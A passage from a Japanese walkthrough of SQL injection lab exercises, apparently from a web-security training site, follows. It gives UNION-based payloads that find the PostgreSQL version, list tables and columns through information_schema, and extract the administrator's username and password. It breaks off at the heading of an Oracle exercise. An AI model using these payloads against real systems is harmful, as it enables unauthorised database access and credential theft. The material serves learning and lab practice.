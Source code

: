 上記の結果が200 OKのためどちらも返却カラムはcharであることがわかりました。

次に、データベースの取得を行います。

```sql
Pets' union select version(), 'a' -- --
```

上記により、Postgresqlを使用していることがわかりました。

Postgresqlでは、 `information_schema.tables` ですべてのテーブルを列挙することができるようです。

```sql
Pets' union select table_name, 'a' from information_schema.tables -- --
```

`users_xkfgvg` というテーブルがあることがわかりました。

次にusers….Tableのカラム名を割り出します。

あるテーブルのカラムを取得する場合は、

```sql
SELECT *
  FROM information_schema.columns
 WHERE table_schema = 'your_schema'
   AND table_name   = 'your_table'
     ;
```

このようにすれば良いそうです。

information_schema.columnsのカラムは以下のサイトで確認できます。

https://www.postgresql.jp/document/8.1/html/infoschema-columns.html

ではこれらの情報をもとにペイロードを組み立てuserx_xkfgvgテーブルからカラムを抜き出します。

```sql
Pets' union select column_name, 'a' from information_schema.columns where table_name='users_xkfgvg'-- --
```

コレにより `password_kjrsfl` , **`username_lswskh` というカラムがあることがわかりました。**

あとはやるだけです。

```sql
Pets' union select password_kjrsfl, username_lswskh from users_xkfgvg where username_lswskh = 'administrator'-- --
```

## ****SQL injection attack, listing the database contents on Oracle****

---

### goal

administratorとしてログインをする
